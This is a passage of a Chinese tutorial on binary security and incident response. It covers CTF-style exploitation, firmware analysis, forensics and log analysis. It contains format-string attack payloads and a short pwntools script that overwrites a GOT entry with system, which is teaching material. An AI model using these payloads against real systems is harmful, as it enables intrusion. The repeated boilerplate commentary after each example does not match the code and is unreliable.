该示例来自原文《4.2 利用方式》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 信息泄露
%x %x %x %x     # 泄露栈上的值（十六进制）
%p %p %p %p     # 泄露指针值
%s              # 读取指针指向的字符串（任意读）

# 任意地址写
%10$n           # 将已输出字节数写入栈上第10个参数指向的地址
%100c%10$n      # 写入值 100
%<offset>c%<pos>$n  # 精确写入
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 8 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.10 示例：4.3 pwntools 利用

该示例来自原文《4.3 pwntools 利用》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
from pwn import *

elf = ELF('./fmt_vuln')
p = process('./fmt_vuln')

# 确定偏移（格式化字符串在栈上的位置）
# 输入 AAAA|%p|%p|%p|... 找到 0x41414141

offset = 6  # 假设偏移为 6

# 任意写：修改 GOT 表项
target_addr = elf.got['printf']  # 要修改的目标地址

# 使用 fmtstr_payload 自动构造
payload = fmtstr_payload(offset, {target_addr: elf.symbols['system']})
p.sendline(payload)
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 11 行有效代码，包含 2 类关键结构（import、from）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.11 示例：5.2 固件分析

该示例来自原文《5.2 固件分析》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 提取固件
binwalk firmware.bin                    # 分析固件结构
binwalk -e firmware.bin                 # 自动提取

# 分析提取的文件系统
squashfs-root/
├── bin/          # 二进制文件
├── etc/          # 配置文件
│   ├── passwd    # 用户凭证
│   ├── shadow    # 密码哈希
│   └── config    # 设备配置
├── web/          # Web 管理界面
└── usr/bin/      # 用户程序

# 搜索硬编码凭证
grep -r "password" squashfs-root/etc/
grep -r "admin" squashfs-root/web/
find squashfs-root -name "*.cfg" -exec cat {} \;
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 16 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.12 示例：6.2 工控安全防护

该示例来自原文《6.2 工控安全防护》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
1. 网络隔离: IT/OT 网络物理/逻辑隔离
2. 纵深防御: 防火墙 → DMZ → 工控防火墙 → PLC
3. 协议白名单: 仅允许合法工控协议和操作
4. 入侵检测: 工控专用 IDS 规则
5. 安全运维: 变更管理、补丁管理、备份恢复
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 5 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.13 示例：7.2 隐写分析流程

该示例来自原文《7.2 隐写分析流程》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 1. 文件类型识别
file mystery_file
xxd mystery_file | head -20

# 2. 元数据检查
exiftool mystery_file

# 3. 隐藏数据提取
binwalk -e mystery_file           # 提取嵌入文件
zsteg mystery_file.png            # PNG LSB 隐写检测
steghide extract -sf mystery.jpg  # JPEG 隐写提取

# 4. 字符串搜索
strings mystery_file | grep -i flag
strings mystery_file | grep -i password

# 5. 对比分析（如有原始文件）
compare original.png modified.png diff.png
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 14 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.14 示例：8.1 PDCERF 模型

该示例来自原文《8.1 PDCERF 模型》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
准备(Preparation) → 发现(Discovery) → 抑制(Containment) →
根除(Eradication) → 恢复(Recovery) → 总结(Follow-up)
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.15 示例：8.2 应急响应操作

该示例来自原文《8.2 应急响应操作》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 1. 现场保护 — 避免破坏证据
# 不要重启系统！不要删除文件！

# 2. 证据固定
dd if=/dev/sda of=/evidence/disk_image.img bs=4M  # 磁盘镜像
md5sum /evidence/disk_image.img > image.md5        # 完整性校验

# 3. 内存采集
# Linux
dd if=/dev/mem of=/evidence/memory.dump bs=1M
# 或使用 LiME
insmod lime.ko "path=/evidence/memory.lime format=lime"

# Windows
# 使用 WinPmem 或 DumpIt

# 4. 进程分析
ps auxf                    # 查看进程树
lsof -i -P -n             # 查看网络连接
netstat -antp              # 网络连接状态
ls -la /proc/[PID]/exe     # 查看进程可执行文件
cat /proc/[PID]/cmdline    # 查看进程命令行

# 5. 持久化后门排查
crontab -l                 # 计划任务
cat /etc/crontab
ls -la /etc/cron.*
systemctl list-unit-files --state=enabled  # 开机启动
cat ~/.bashrc ~/.bash_profile              # Shell 初始化
cat /etc/rc.local                          # 启动脚本
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 25 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.16 示例：9.1 Linux 日志分析

该示例来自原文《9.1 Linux 日志分析》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 登录日志
last -f /var/log/wtmp          # 成功登录
lastb -f /var/log/btmp         # 失败登录
grep "Failed password" /var/log/auth.log | awk '{print $11}' | \
  sort | uniq -c | sort -rn | head  # 暴力破解统计

# 系统日志
grep -i "error\|fail\|critical" /var/log/syslog
journalctl --since "2024-01-01" --until "2024-01-02" -p err

# Web 日志分析
awk '{print $1}' access.log | sort | uniq -c | sort -rn | head -20  # IP 统计
grep "POST /login" access.log | grep " 401 "   # 登录失败
grep "SELECT\|UNION\|DROP" access.log          # SQL 注入尝试
grep "<script>\|alert(" access.log              # XSS 尝试
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 13 行有效代码，包含 1 类关键结构（SELECT）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.17 示例：9.2 Windows 日志分析

该示例来自原文《9.2 Windows 日志分析》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```powershell
# 安全日志 — 登录事件
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4625} |
  Select-Object TimeCreated, Message | Format-Table

# 统计登录失败 IP
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4625} |
  ForEach-Object { $_.Properties[5].Value } |
  Group-Object | Sort-Object Count -Descending | Select-Object -First 10

# 进程创建事件
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4688} |
  Select-Object TimeCreated, Message | Format-List
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 10 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.18 示例：10.1 内存取证（Volatility）

该示例来自原文《10.1 内存取证（Volatility）》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 获取系统信息
vol.py -f memory.dump windows.info

# 进程列表
vol.py -f memory.dump windows.pslist
vol.py -f memory.dump windows.pstree          # 进程树
vol.py -f memory.dump windows.psscan          # 扫描隐藏进程

# 网络连接
vol.py -f memory.dump windows.netscan

# 提取可疑进程
vol.py -f memory.dump windows.memmap --pid 1234 --dump

# 注册表分析
vol.py -f memory.dump windows.registry.printkey \
  --key "Software\Microsoft\Windows\CurrentVersion\Run"

# 文件提取
vol.py -f memory.dump windows.filescan | grep ".doc"
vol.py -f memory.dump windows.dumpfiles --physaddr 0x3e4a5b60
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 16 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.19 示例：10.2 磁盘取证

该示例来自原文《10.2 磁盘取证》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 创建取证镜像
dd if=/dev/sda of=evidence.img bs=4M conv=noerror,sync
# 或使用专业工具: FTK Imager、Guymager

# 镜像分析
mmls evidence.img                    # 查看分区表
fls -r -o 2048 evidence.img          # 查看文件系统
icat -o 2048 evidence.img 12345      # 提取文件（按 inode 号）

# 恢复删除文件
foremost -i evidence.img -o recovered/    # 按文件头恢复
photorec evidence.img                     # 交互式恢复

# 时间线分析
fls -r -m / -o 2048 evidence.img > body.txt
mactime -b body.txt > timeline.csv
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 13 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.20 示例：11.1 Wireshark 数据包分析

该示例来自原文《11.1 Wireshark 数据包分析》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
常用过滤语法:
  ip.addr == 192.168.1.1           # IP 过滤
  tcp.port == 80                   # 端口过滤
  http.request.method == "POST"    # HTTP POST 请求
  dns.qry.name contains "evil"     # DNS 查询
  tcp.flags.syn == 1               # SYN 包
  frame.len > 1000                 # 大包过滤

分析技巧:
1. 统计 → 对话 → 查看 IP 通信量排名
2. 统计 → 协议分级 → 查看协议分布
3. 跟随 → TCP 流 → 查看完整会话
4. 导出 → HTTP 对象 → 提取传输文件
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 12 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.21 示例：11.2 tcpdump 流量分析

该示例来自原文《11.2 tcpdump 流量分析》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 抓包
tcpdump -i eth0 -w capture.pcap           # 抓取所有流量
tcpdump -i eth0 host 192.168.1.1          # 指定主机
tcpdump -i eth0 port 80                   # 指定端口
tcpdump -i eth0 'tcp[tcpflags] & tcp-syn != 0'  # SYN 包

# 读取分析
tcpdump -r capture.pcap -nn               # 读取 pcap
tcpdump -r capture.pcap -A                # ASCII 显示
tcpdump -r capture.pcap -X                # 十六进制+ASCII

# 提取 HTTP 请求
tcpdump -r capture.pcap -A -s 0 | \
  grep -i "GET\|POST\|Host\|Cookie"
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 12 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.22 示例：12.2 学习路线

该示例来自原文《12.2 学习路线》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
入门: CTFHub 技能树 → 掌握基础题型
进阶: BUUCTF 刷题 → 积累解题经验
实战: 参加线上 CTF 比赛 → 团队协作
提升: 复现真实漏洞 CVE → 深入理解原理
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 4 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.23 示例：13.2 渗透测试合规要求

该示例来自原文《13.2 渗透测试合规要求》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
1. 必须获得书面授权（渗透测试授权书）
2. 明确测试范围、时间、限制条件
3. 不得超出授权范围进行测试
4. 发现重大漏洞及时报告，不得利用
5. 测试数据保密，不得泄露
6. 测试完成后清除所有测试痕迹
7. 出具正式报告，提出修复建议
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 7 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。


综合以上示例，可以总结出本主题的代码实践要点：第一，先定义清晰的输入输出契约；第二，核心逻辑保持单一职责；第三，错误处理与边界条件不可省略；第四，命名与注释表达意图而非复述代码。

## 6. 对比分析

对比是理解《二进制安全与应急响应》定位的最快路径。下面从多个维度与相邻方案进行对比。

白盒与黑盒：白盒审代码，黑盒测外部；红蓝对抗验证整体。
等保 2.0 与 ISO 27001：合规框架驱动管理安全。
传统边界与零信任：零信任默认不信任任何请求，持续验证。

对比的目的不是分出绝对优劣，而是建立选择依据：不同约束条件下，最优解不同。读者应把每个对比维度转化为决策检查清单。

## 7. 常见陷阱与最佳实践

本节整理该主题的高频错误与推荐做法。每个陷阱先描述现象，再解释原因，最后给出最佳实践。

### 7.1 弱口令

默认口令与弱密码是最大入口。强制策略 + MFA。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，弱口令 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，弱口令 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理弱口令的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.2 SQL 注入

拼接 SQL 直接执行。参数化查询 + 最小权限。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，SQL 注入 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，SQL 注入 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理SQL 注入的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.3 XSS 未过滤

反射/存储型 XSS 窃取会话。输出编码 + CSP。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，XSS 未过滤 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，XSS 未过滤 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理XSS 未过滤的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.4 敏感信息泄露

日志与前端暴露密钥。密钥管理 + 脱敏。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，敏感信息泄露 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，敏感信息泄露 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理敏感信息泄露的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.5 依赖漏洞

第三方库已知漏洞。SCA 扫描 + 更新。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，依赖漏洞 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，依赖漏洞 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理依赖漏洞的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.6 权限过度

账号权限超出职责。最小权限 + 定期审计。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，权限过度 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，权限过度 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理权限过度的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.7 备份缺失

勒索软件无法恢复。离线备份 + 恢复演练。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，备份缺失 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，备份缺失 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理备份缺失的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.8 安全意识薄弱

钓鱼与社会工程。培训 + 模拟演练。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，安全意识薄弱 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，安全意识薄弱 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理安全意识薄弱的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.0 最佳实践总览

1. 纵深防御：网络、主机、应用、数据多层防线。
2. 最小权限与默认拒绝。
3. 安全左移：威胁建模与扫描进 CI。
4. 事件响应预案：检测、遏制、根除、恢复、复盘。

把这些最佳实践固化为团队规范与代码评审检查项，是避免同类问题反复出现的关键。

## 8. 工程实践

本节把《二进制安全与应急响应》放入真实工程场景，给出可复用的模式与组织方法。

开发安全：依赖扫描、SAST（静态）、DAST（动态）、密钥扫描。
运行时：WAF、IDS/IPS、EDR、日志审计与 SIEM。
应急响应：SOP 文档、证据保全、复盘报告。

### 8.1 工程实践的原则拆解

以上工程实践可以归纳为四条原则。第一，配置与代码分离：网络安全 项目中环境差异应通过配置注入，而不是散落在代码分支中；这保证同一份代码可以在开发、测试、生产环境一致运行。

第二，接口稳定优先：对外接口（函数签名、协议、数据格式）一旦被消费方依赖，变更成本极高；设计时应预留扩展点并保持向后兼容。

第三，可观测性内置：日志、指标与追踪应该在功能开发时同步设计，而不是故障发生后补救；没有观测手段的模块等于黑盒。

第四，变更可回滚：任何发布都应有对应的回滚方案；数据库迁移、配置变更与代码发布一样需要版本管理与逆向路径。

### 8.2 实践落地的检查清单

- [ ] 开发安全：对照本节描述，检查当前项目是否已经落实；未落实的项列入技术债并排期处理。
- [ ] 运行时：对照本节描述，检查当前项目是否已经落实；未落实的项列入技术债并排期处理。
- [ ] 应急响应：对照本节描述，检查当前项目是否已经落实；未落实的项列入技术债并排期处理。

工程实践的共性原则：配置与代码分离、接口稳定优先、可观测性内置、变更可回滚。这些原则适用于本主题的所有实现。

## 9. 案例研究

本节通过一个完整案例把《二进制安全与应急响应》的知识串起来。案例按“需求分析、方案设计、实现、验证”四步展开。

需求：为 Web 应用建立安全基线并验证。
方案：OWASP Top 10 对照加固 + 扫描 + 渗透测试。
要点：输入输出编码、CSP、认证加固、日志告警。
验证：漏扫报告清零高危、红队演练、事件响应演练。

### 9.1 案例的扩展讨论

把案例中的方案放大到真实规模，需要额外考虑三个问题：

第一，规模：当数据量或并发量上升一个数量级时，原方案中的数据结构、缓存策略与任务调度是否仍然成立？通常需要引入分层与异步。

第二，团队：多人协作时，模块边界、接口契约与代码所有权必须明确；案例中的实现应拆分为可独立测试的单元，并配合文档说明设计意图。

第三，演进：上线后的需求变化不可避免；方案设计时应预留扩展点（配置化、插件化、事件化），并定期用真实指标验证假设。


案例研究的学习方法：先独立阅读需求，尝试在脑中形成方案，再对照实现与讲解，最后思考“如果约束变化（数据量、并发、团队规模），方案应如何调整”。

## 10. 知识要点总结与深入讲解

本节以讲解形式汇总全文要点，替代传统的习题与自测，读者不需要答题，只需跟随解释建立完整的认知框架。

关于《二进制安全与应急响应》的核心结论：

安全是设计出来的，不是事后补救。
OWASP Top 10 与 CIA 模型是入门主线。
纵深防御 + 最小权限 + 持续验证构成现代基线。

原文档各小节的要点回顾：

- 1. 二进制逆向工程：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 2. 栈溢出漏洞利用：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 3. 堆溢出漏洞利用：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 4. 格式化字符串漏洞：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 5. 物联网安全：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 6. 工控系统安全：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 7. 隐写术分析：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 8. 应急响应流程：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 9. 日志分析技术：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 10. 取证技术：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 11. 流量分析：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 12. CTF 夺旗挑战：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 13. 网络安全法律法规：该小节围绕二进制安全与应急响应展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。

把以上要点与第 3-9 节的内容对照复习，即可完成对本文主题的闭环学习。

## 11. 参考文献


OWASP Top 10：https://owasp.org/www-project-top-ten/
OWASP Cheat Sheets：https://cheatsheetseries.owasp.org/
NIST 网络安全框架：https://www.nist.gov/cyberframework
CWE 数据库：https://cwe.mitre.org/
PortSwigger Web Security Academy：https://portswigger.net/web-security

## 12. 延伸阅读


密码学与证书，见 033-cybersecurity 模块文档。
Web 攻击与防御，见 033-cybersecurity 模块相关文档。
网络层安全，见 032-networking 模块。
黑马程序员 Bilibili 空间（https://space.bilibili.com/37974444 ）提供网络安全课程。

## 14. 模块知识图谱与学习路径

本文属于 网络安全 模块。为了把《二进制安全与应急响应》放入完整的知识网络，下面列出本模块的全部主题并给出相互关联的导读。学习时建议按模块内顺序推进，并在每个文档中留意交叉引用。



上图为模块主题的推荐学习顺序示意图（仅展示前若干主题）。各主题之间存在三类关联：

第一，前置依赖关系：早期主题是后期主题的基础，例如环境与语法先行、进阶主题随后；

第二，横向并列关系：同一层级主题从不同角度覆盖模块能力，学习顺序可以按兴趣调整；

第三，工程组合关系：多个主题在真实项目中组合使用，例如配置、性能与安全主题往往出现在同一系统的不同层面。

### 14.1 模块主题速查表

| 文档 | 主题 | 与本文的关联 |
| --- | --- | --- |
| 安全基础与防御 | 001-SecurityBasicsDefense | 本文的前置基础 |
| Web安全与渗透测试 | 002-WebSecurityPenetrationTesting | 本文的安全延伸 |
| 二进制安全与应急响应 | 003-BinarySecurityAndIncidentResponse | 本文自身 |
| 安全工具与实战 | 004-SecurityToolsPractice | 本文的综合应用 |
| XSS攻击 | 005-XSSAttack | 本文的并列主题 |
| 安全模型与框架 | 006-SecurityModelFramework | 本文的安全延伸 |
| CSRF攻击 | 007-CSRFAttack | 本文的并列主题 |
